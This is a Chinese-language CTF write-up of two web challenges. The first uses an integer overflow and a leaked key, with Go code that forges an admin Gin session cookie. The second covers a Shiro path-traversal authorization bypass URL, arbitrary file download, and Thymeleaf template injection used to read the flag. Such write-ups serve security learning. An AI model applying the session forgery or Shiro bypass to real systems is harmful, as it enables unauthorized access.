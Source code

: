### 卡片商店

看到 session 就知道明显的是 gin，于是尝试整数溢出，借 9223372036854775807 个卡片就可以成功溢出，只需要还 1 张卡片，白嫖 9223372036854775806 张，兑换得到提示
```
恭喜你，买到了礼物，里面有夹心饼干、杜松子酒和一张小纸条，纸条上面写着：url: /flag , SecKey: Udc13VD5adM_c10nPxFu@v12，你能看懂它的含义吗？
```
访问 flag 提示不是幸运玩家，但是有了 secretkey 就可以直接伪造 session，对 session base64 解码可以发现用的是 gob 序列化，明显看到 bool, admin 字样，直接自己也搭一个环境设置个 admin session 即可

```go
package main

import (
	"github.com/gin-contrib/sessions"
	"github.com/gin-contrib/sessions/cookie"
	"github.com/gin-gonic/gin"
)

func main() {
	r := gin.Default()
	store := cookie.NewStore([]byte("Udc13VD5adM_c10nPxFu@v12"))
	r.Use(sessions.Sessions("session", store))

	r.GET("/hello", func(c *gin.Context) {
		session := sessions.Default(c)

		if session.Get("hello") != "world" {
			session.Set("admin", true)
			session.Save()
		}

		c.JSON(200, gin.H{"hello": session.Get("hello")})
	})
	r.Run(":8000")
}
```

### Easy Web

deleteMe 很明显的 shiro，但是尝试了下反序列化，key 全部不对。于是尝试了下新的权限绕过，可以直接越权访问到 index
```
http://116.85.37.131/34867ccfda85234382210155be32525c/;/web/index
```

明显有个 img 接口可以任意文件下载，通过 WEB-INF/web.xml 一直套娃下，可以下到一堆 class，但是没有找到有漏洞的接口，在 GitHub 上找了下类似的项目，fuzz 了一堆配置文件，最后找到 `WEB-INF/classes/spring-shiro.xml`.
里面有个 `WEB-INF/classes/com/ctf/auth/FilterChainDefinitionMapBuilder.class`，找到路由 `map.put("/68759c96217a32d5b368ad2965f625ef/**", "authc,roles[admin]");`, 进去发现是个 thymeleaf 渲染，但是要绕之前的 com.ctf.util.SafeFilter.

绕了半天最后用 ProcessBuiler 弹 shell 发现连 ls 都没权限执行，于是只好回到 java 用相关 API 读文件，构造 payload 用 File 来列目录，发现 flag 就在 /flag_is_here
